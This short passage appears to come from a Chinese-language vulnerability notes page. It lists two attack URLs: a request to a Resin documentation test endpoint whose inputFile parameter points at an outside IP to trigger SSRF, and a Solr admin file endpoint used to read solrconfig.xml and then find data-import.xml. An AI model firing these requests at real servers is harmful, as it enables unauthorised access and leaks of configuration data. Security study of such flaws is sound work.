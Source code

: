 ![2014083012401614058_png.jpg](img/img15_u15_png.jpg) 

也可以通过

http://www.xxx.com/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=http://1.1.1.1

实现 SSRF

solr 敏感信息泄漏

http://xxx.org:8080/solr/admin/file/?file=solrconfig.xml

搜索 xml 文件，找到 data-import.xml
